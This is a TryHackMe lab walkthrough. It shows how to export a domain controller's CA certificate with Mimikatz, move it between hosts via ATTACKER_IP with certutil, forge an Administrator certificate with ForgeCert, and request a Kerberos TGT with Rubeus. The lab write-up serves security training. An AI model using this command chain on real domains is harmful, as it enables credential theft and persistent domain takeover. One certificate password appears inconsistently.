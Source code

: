 Create a unique directory for our user, and we will move into it and run `Mimikatz`:

```powershell
> ssh za.tryhackme.loc\\Administrator@thmdc.za.tryhackme.loc
> mkdir radupopa
> cd radupopa
> C:\Tools\mimikatz_trunk\x64\mimikatz.exe
```

We will view the certificates stored on the DC:

```powershell
> crypto::certificates /systemstore:local_machine
```

We find a CA certificate on the DC, and we will use `Mimikatz` to make these keys exportable and get them:

```powershell
> privilege::debug
> crypto::capi
> crypto::cng
# export the certificates
> crypto::certificates /systemstore:local_machine /export
```

The exported certificates are stored in `PFX` and `DER` format in our username folder. Now we will download this certificate on our attacking machine using `scp`:

```bash
$ scp Administrator@THMDC.za.tryhackme.loc:C:/Users/Administrator/radupopa/local_machine_My_2_za-THMDC-CA.pfx .
```

We will move this certificate on the `THMWRK` machine:

* On your attacking machine host a Python webserver where the `za-THMDC-CA.pfx` file is located:
	* `python3 -m http.server 80`

* Log in on the `THMWRK` machine using the Administrator account and SSH.
	* `ssh za.tryhackme.loc\\Administrator@thmwrk1.za.tryhackme.loc`
* Use `certutil` to download the file:
	* `certutil.exe -urlcache -split -f http://ATTACKER_IP/local_machine_My_2_za-THMDC-CA.pfx`
	* The password for the `.pfx` file is `mimikatz`

Finally, we will use the certificate to generate our own certificates using `ForgeCert`:

```
C:\Tools\ForgeCert\ForgeCert.exe --CaCertPath local_machine_My_2_za-THMDC-CA.pfx --CaCertPassword mimikatz --Subject CN=User --SubjectAltName Administrator@za.tryhackme.loc --NewCertPath fullAdmin.pfx --NewCertPassword Password123
```

Use `Rubeus` to request a TGT using the certificate to verify that it's trusted:

```powershell
> C:\Tools\Rubeus.exe asktgt /user:Administrator /enctype:aes256 /certificate:fullAdmin.pfx /password:Password1
23 /outfile:administrator.kirbi /domain:za.tryhackme.loc /dc:10.200.61.101
```
